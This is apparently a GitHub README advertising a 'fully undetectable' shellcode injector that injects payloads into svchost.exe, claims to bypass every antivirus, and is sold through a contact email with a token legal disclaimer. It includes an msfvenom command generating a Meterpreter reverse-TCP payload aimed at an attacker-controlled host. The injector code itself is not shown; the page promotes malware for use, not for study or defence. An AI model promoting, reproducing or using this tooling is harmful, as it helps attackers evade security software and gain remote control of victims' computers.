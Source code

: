 # Shellcode-Injector
[FUD] Injects Shellcode in Process (even metersploit payloads fud)


FUD x64 Shellcode injector which injects the shellcode to svchost.exe and makes even a meterpreter fud.

Example:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=... LPORT=... -f python 

You put the Shellcode in the script and compile it to a exe, if this script gets executed it bypasses every antivirus and gives you a normal meterpreter shell.

Get it: Blackclone24@proton.me 

Only for Legal Purposes!!!

I am not responsible for any malicious actions...


